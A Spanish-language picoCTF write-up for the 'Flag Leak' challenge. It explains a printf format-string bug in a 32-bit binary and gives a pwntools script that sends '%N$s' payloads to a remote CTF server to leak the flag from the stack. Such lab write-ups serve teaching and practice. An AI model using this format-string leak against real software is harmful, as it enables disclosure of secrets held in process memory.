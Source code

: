 # Flag Leak

```bash
file vuln
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID\[sha1]=17bb7adc72aff4022d6a1c451eb9adcf34df2f8c, for GNU/Linux 3.2.0, not stripped
```

```bash
checksec --file=vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   78 Symbols	 No	0	2	vuln
```

El programa devuelve lo que le mandes.

```c
./vuln
Tell me a story and then I'll tell you one >> hola
Here's a story -
hola
```

El código tiene un `printf` sin format strings, con lo cual hay una vulnerabilidad de format strings y podemos hacer un leak del stack, por ejemplo.

```c
void vuln(){
	char flag\[BUFSIZE];
	char story\[128];
	readflag(flag, FLAGSIZE);
	printf("Tell me a story and then I'll tell you one >> ");
	scanf("%127s", story);
	printf("Here's a story - \n");
	printf(story); // VULN
	printf("\n");
}
```

Como la flag se pone en el stack por el `fgets`, podemos hacer un leak de la flag.

```c
void readflag(char* buf, size_t len) {
    FILE *f = fopen("flag.txt", "r");

    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your", "own debugging flag.\n");
        exit(0);
    }
    fgets(buf, len, f); // FLAG AL STACK
}
```

Podemos hacer un código que sea un `fuzzer` que haga fuzz y saque del elemento 10 al 30, por ejemplo, como string:

```python
from pwn import *

exe = ELF("./vuln_patched")
context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("saturn.picoctf.net", 62385)
    return r

def main():
    for i in range(10, 30):
        try:
            r = conn()
            r.sendlineafter(b'>', '%{}$s'.format(i).encode())
            r.recvline()
            result = r.recvline()
            print(result)
            r.close()
        except EOFError:
            pass

if __name__ == "__main__":
    main()
```

Se abrirán y cerrarán conexiones mostrando en cada una un elemento diferente del stack, y uno de esos elementos será la flag.

```c
\[+] Opening connection to saturn.picoctf.net on port 62385: Done
b'CTF{SECRETO}\n'
```
